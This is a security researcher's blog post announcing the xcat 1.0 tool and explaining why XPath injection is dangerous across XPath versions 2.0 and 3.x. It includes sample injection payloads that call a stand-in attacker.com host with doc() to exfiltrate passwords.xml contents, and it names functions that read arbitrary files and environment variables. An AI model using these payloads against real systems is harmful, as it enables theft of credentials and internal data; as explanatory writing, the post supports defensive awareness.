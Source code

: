 ```yaml
---
title: "XCat 1.0 released or: XPath injection issues are under appreciated"
date: "2018-12-09T19:58:01Z"
draft: false
tags:
   - projects
   - security
---
```


*tl;dr: XPath injection flaws allow you to exfiltrate a surprising amount of potentially sensitive information, the 
lack of awareness around this and the lack of inbuilt security features makes for a potent mix*

I've just released [xcat 1.0](https://github.com/orf/xcat) and it's
[demonstration application](https://github.com/orf/xcat_app) after like 5 years of on-off development. Feels good!

The genesis of xcat was when my boss, Sid, walked up to me out of the blue and asked if I wanted to go on an all 
expenses paid trip to Amsterdam. Who the hell wouldn't say yes to that proposition? *"Great! you've got a month to write
a research paper on XPath injection flaws and we will present it at Blackhat Europe"*. Wait... slow down! What's XPath?!

As it turns out XPath is what you get when you combine the unholy trinity of **XML**, **design-by-committee** and 
**large quantities of drugs**. But before I get into that here's a short demo of me listing directories, reading 
arbitrary files and dumping environment variables through a simple innocuous XPath injection flaw, using `xcat`:
 
<center>
<script id="asciicast-216044" src="https://asciinema.org/a/216044.js" async></script>
</center>

*I recommend reading a little bit about what XPath is and a little bit about blind injection vulnerabilities.
I wrote [an introduction here](http://localhost:1313/exploiting-xpath-injection-vulnerabilities-with-xcat/) or there 
is the venerable [OWASP page on the topic](https://www.owasp.org/index.php/XPATH_Injection).*


## XPath 1.0

So, back to large quantities of drugs. The year was 1999. Intel had just released the 800 MHZ Pentium III, Internet
Explorer 5.0 was the hot new browser and XML was all the rage.
 
All was not well in the land of XML though: parsing, filtering and generally using it was a huge pain. So some clever
people invented a nice, clean and concise syntax for querying it documents without any hassle:

`//Employee[UserName/text()='tom']`

Cool! This seems a lot simpler and more flexible than whatever manual parsing/iteration you'd come up with
in `$FAVORITE_LANGUAGE`. And this was XPath, the people rejoiced and the world was good.

Until 2010.

## XPath 2.0

It was decided in 2010 that XPath 1.0 was too simple. What it clearly, *clearly* lacked was a weird type system
(it's both strongly and weakly typed), a [greatly expanded type heirachy](https://upload.wikimedia.org/wikipedia/commons/9/91/XQuery_and_XPath_Data_Model_type_hierarchy.png)
(seriously go look at that), `isinstance` checks, casting and a much larger function library.

Now don't get me wrong: some of these are good changes. But what snuck into this version is the 
[fairly innocuous  `doc` function](https://maxtoroq.github.io/xpath-ref/fn/doc.html). Seems simple - you can reference 
external XML files in your query (almost like a join) and I'm sure there are use cases for this.

This function jumped right out at me when I was struggling 
[through the very, very dense XPath specification](https://www.w3.org/TR/xpath20/), wondering if I should just buy my
own bloody holiday to Amsterdam. What does `doc('https://attacker.com/xxe.xml')` do? Or
`doc('ftp://internalserver/passwords.xml')`? Or, heck, even `doc('gopher://server/something')`?

Turns out it does what you would expect. It makes the request. So now if you find an exploitable XPath injection flaw 
you can make arbitrary network requests for any XML-like document you can find. If your internal services respond with 
HTML that parses as XML that's great! Or how about if all your Java/.NET configuration files are in XML, storing all 
those juicy database passwords? That's even better! **We can now read them and download them via any XPath 2.0 injection 
issue.**

Other than this the interesting thing is you can use this function to exfiltrate large quantities of data really 
quickly. The specification very nicely includes [an `encode-for-uri` method](https://maxtoroq.github.io/xpath-ref/fn/encode-for-uri.html), 
so we could just do:

`doc(string-join('http://attacker.com/?d', encode-for-uri(doc('passwords.xml')/some-node)))`

Another cool issue is [external entity injection](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing). 
The tl;dr is you can serve up a malicious XML file that is requested by `doc()` that can read arbitrary files on the filesystem!

Awesome! [xcat implements these attacks](https://xcat.readthedocs.io/en/latest/OOB-server/) by the way.

The kicker here is:

- You need to explicitly configure your XPath engine to protect against all of this, which inevitably nobody does because 
  nobody expects it. It's just a simple query language, right?
  
- There is no concept of parameterized queries like you have in every SQL adapter ever. It has to be done manually, and 
  it has to be done **correctly in every input**. If you miss something then you're vulnerable to all of this!
  
And this was XPath 2.0. Tom got to go to Amsterdam and
[present at Black Hat Europe](https://media.blackhat.com/bh-eu-12/Siddharth/bh-eu-12-Siddharth-Xpath-Slides.pdf), and 
the world was good.

Until 2014. At which point the drugs really kicked in.

## XPath 3.0/3.1

It was decided in 2014 that XPath 2.0 was too simple. What it clearly, *clearly* lacked was dynamic function calls,
for loops, introspection, array map/filter/reduce, associative arrays, 
[**dynamic module loading**](https://maxtoroq.github.io/xpath-ref/fn/load-xquery-module.html), JSON parsing, 
inline functions, **exceptions and tracebacks**.

So now our lovely, simple XPath has evolved into:

```
for-each(normalize-unicode(upper-case(json-doc('x.json'))) => tokenize("\s+"),
         function($a) {
            let $a := $a * 10
            load-xquery-module('abc'):some-func(
                        function-lookup($a, 1)(array:map($a, function($b) {
                                let $c := unparsed-text-lines($b)
                                trace($c)
                                if ($c) {
                                    return xml-to-json($b)
                                } else {
                                    error('This is an error')
                                }
                        })) 
            }
)
```

Yay! The future is here! Can you smell the progress?

Aside from trying to turn XPath into some JavaScript abomination they also added two interesting functions:

* [unparsed-text](https://maxtoroq.github.io/xpath-ref/fn/unparsed-text.html)
* [environment-variable](https://maxtoroq.github.io/xpath-ref/fn/environment-variable.html)
* [json-doc](https://maxtoroq.github.io/xpath-ref/fn/json-doc.html)

With these we **can read any arbitrary text files**, and iterate through **all environment variables**.

Also if your internal webservice speaks JSON, well then buddy you're in luck! A simple XPath injection flaw can let the 
attacker read all of those responses using the handy JSON functions introduced in 3.1.

## Summary

I'm sure they are already working on XPath 4.0. I wonder if they will add DirectX support, I think it's really lacking 
in that area.